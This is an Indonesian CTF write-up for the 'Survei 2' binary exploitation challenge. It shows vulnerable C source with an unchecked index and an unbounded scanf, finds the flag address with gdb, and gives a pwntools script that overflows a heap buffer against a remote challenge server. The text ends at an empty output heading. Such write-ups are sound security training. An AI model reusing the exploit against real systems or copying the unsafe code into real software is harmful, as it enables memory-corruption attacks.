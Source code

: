 # Survei 2

> Write-up author: jon-brandy

## DESKRIPSI:

[survei](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei)

[survei.c](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei.c)

## LANGKAH-LANGKAH:
1. Pertama unzip file `.zip` yang diberikan.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188115991-f41b2102-387b-4dc2-8b61-d96f4c96a2b0.png)

2. Jalankan `chmod +x survei` agar program dapat dieksekusi.
3. Setelah itu cek terlebih dahulu proteksi yang diberikan pada program dengan menjalankan `checksec --file survei`.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188116853-8e5e5d5a-7724-49d7-a77f-aef5d4b51e69.png)

4. Dikarenakan **no pie** menandakan memory yang tersimpan akan selalu berada di tempat yang sama.
5. Selanjutnya cek source-code yang diberikan.

> SURVEI.C

```c
#include<stdio.h>
#include<stdlib.h>

struct data {
    char *str;
};
char flag[40];
struct data *survei[8];

void printMenu() {
    printf("1. Isi survei\n2. Lihat survei\n3. Keluar\n> ");
}

void isiSurvei() {
    int p;
    printf("Di manakah survei ingin disimpan?: ");
    scanf("%d", &p);
    printf("Isi survei: ");
    scanf("%s", survei[p]->str);
    printf("Survei berhasil disimpan di: %d\n", p);
}

void lihatSurvei() {
    int p;
    printf("Survei manakah yang ingin dilihat: ");
    scanf("%d", &p);
    printf("%s\n", survei[p]->str);
}

int main(int argc, char const *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE *fp = fopen("flag.txt", "r");
    fgets(flag, 40, fp);
    
    int i;
    for (i = 0; i < 8; i++) {
        survei[i] = malloc(sizeof(struct data));
        survei[i]->str = malloc(32);
    }
    
    while (1) {
        printMenu();
        int choice;
        scanf("%d", &choice);
        if (choice == 1) {
            isiSurvei();
        } else if (choice == 2) {
            lihatSurvei();
        } else {
            printf("Bye.\n");
            return 0;
        }
    }
}

```

6. Setelah melakukan analisis source-code, nampaknya kita hanya perlu mencari address dari flag dan melakukan padding sebanyak 48.

> NOTES

```
48 -> size buffer dari flag + size buffer dari struct pointer survei
```

7. Saya menggunakan `gdb` untuk mencari address dari flag

> GDB

![image](https://user-images.githubusercontent.com/70703371/188117558-f41cd6bc-1bf5-4d3b-9ff7-0ae4e2a0df3a.png)

> ADDRESS FLAG

```
0x6010e0
```

8. Langkah selanjutnya kita harus mengontrol `return address`, untuk itu saya menggunakan **pwntools** di script python sebagai berikut:

```py
import os
from pwn import *

os.system('clear')

sh = remote('103.185.38.238', 17835)

p = b'A' * 48
p += p64(6295776) # decimal value dari address flag

sh.sendline(b'1')
sh.sendline(b'0')

sh.sendline(p)

sh.sendline(b'2')
sh.sendline(b'1')

sh.interactive()
```

> OUTPUT

